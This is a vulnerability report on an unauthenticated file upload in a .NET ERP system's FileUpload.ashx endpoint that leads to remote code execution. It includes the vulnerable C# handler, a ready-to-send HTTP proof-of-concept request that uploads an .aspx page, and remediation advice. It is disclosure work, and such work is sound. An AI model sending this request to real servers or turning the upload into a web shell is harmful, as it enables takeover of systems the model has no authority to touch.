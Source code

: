 ![image-20250203111309744](./assets/image-20250203111309744.png)

![image-20250203111352117](./assets/image-20250203111352117.png)

# Vulnerability Report

## Title: Unauthenticated File Upload Leading to Remote Code Execution (RCE)

### Summary:
A critical security vulnerability has been identified in the file upload functionality of the .NET system. This vulnerability allows unauthenticated users to upload arbitrary files, which can lead to remote code execution (RCE) and potentially grant attackers full control over the server.

### Affected Endpoint:
`/Api/FileUpload.ashx?method=DoUpload`

### Vulnerability Type:
Unauthenticated File Upload Leading to Remote Code Execution (RCE)

### Vulnerable Code:
Below is the vulnerable code snippet responsible for handling file uploads:

```csharp
[RequestCheck(CheckLogin = false, Name = "app文件上传", CheckParams = "username,userid,menucode,key,value,filename,filesize")]
public void DoUpload()
{
  string str1 = this.bImpl.Request("filename");
  long int64 = this.bImpl.Request("filesize").ToInt64();
  string str2 = this.bImpl.Request("value");
  string str3 = this.bImpl.Request("fileNo");
  Hashtable hashtable = new Hashtable();
  hashtable.Add((object) "username", (object) this.user.UserName);
  hashtable.Add((object) "userid", (object) this.user.UserId);
  hashtable.Add((object) "key", (object) this.bImpl.Request("key"));
  hashtable.Add((object) "value", (object) str2);
  hashtable.Add((object) "filename", (object) str1);
  hashtable.Add((object) "filesize", (object) int64);
  hashtable.Add((object) "fileNo", (object) str3);
  hashtable.Add((object) "menucode", (object) this.ModuleId);
  Hashtable fInfos = hashtable;
  Stream inputStream = HttpContext.Current.Request.InputStream;
  byte[] buffer = new byte[inputStream.Length];
  inputStream.Read(buffer, 0, buffer.Length);
  if (!this.Fimpl.Save(buffer, fInfos).success)
    return;
  this.response = this.Fimpl.AddFileInfo(fInfos);
}


public BaseResponse Save(byte[] buffer, Hashtable fInfos)
{
  fInfos[(object) "username"]?.ToString();
  fInfos[(object) "userid"]?.ToString();
  string str1 = fInfos[(object) "menucode"]?.ToString() ?? "";
  fInfos[(object) "key"]?.ToString();
  string str2 = fInfos[(object) "value"]?.ToString() ?? "";
  string tempFileName = this.toTempFileName(fInfos[(object) "filename"]?.ToString() ?? "");
  fInfos[(object) "filesize"]?.ToString();
  string str3 = fInfos[(object) "fileNo"]?.ToString() ?? "";
  int int32 = fInfos[(object) "position"].ToInt32();
  return FileUtil.SaveFile(buffer, (long) int32, 0L, string.Format(Lskj.WebErp.Core.Util.WebConfigUtil.PubModelAccFilePath, (object) str1, (object) str2, (object) str3), tempFileName, this.AppDomain, true);
}
```

### Proof of Concept (PoC):
The following HTTP request demonstrates how an unauthenticated user can exploit this vulnerability to upload a malicious file.

```http
POST /Api/FileUpload.ashx?method=DoUpload HTTP/1.1
Host: [TARGET_HOST]
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFfJZ4PlAZBixjELj
Accept: */*
Connection: close

------WebKitFormBoundaryFfJZ4PlAZBixjELj
Content-Disposition: form-data; name="file"; filename="1.aspx"
Content-Type: image/jpeg

<% @ Page Language="C#" %>
<% Response.Write("RCE Test"); %>
------WebKitFormBoundaryFfJZ4PlAZBixjELj--
```

### Impact:
An attacker can exploit this vulnerability to upload a malicious ASP.NET script file (`.aspx`) to the server. This script can then be executed by accessing it via a web browser, leading to remote code execution and allowing the attacker to execute arbitrary commands on the server, potentially leading to full system compromise.

### Recommendation:
1. **Authentication Check**: Ensure that file upload functionality requires proper authentication. The `CheckLogin` attribute should be set to `true`.
2. **File Type Validation**: Implement strict file type validation to ensure only allowed file types can be uploaded.
3. **File Content Validation**: Validate the contents of the uploaded file to prevent the upload of malicious scripts.
4. **File Storage Location**: Store uploaded files outside the web root directory to prevent direct access and execution.
5. **Regular Security Audits**: Conduct regular security audits and code reviews to identify and mitigate potential vulnerabilities.

### Conclusion:
This critical vulnerability should be addressed immediately to prevent potential exploitation. By implementing the recommended security measures, the risk of unauthorized file uploads and remote code execution can be significantly reduced.

### References:
- [OWASP File Upload Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html)
- [Microsoft Secure Coding Guidelines](https://docs.microsoft.com/en-us/dotnet/standard/security/secure-coding-guidelines)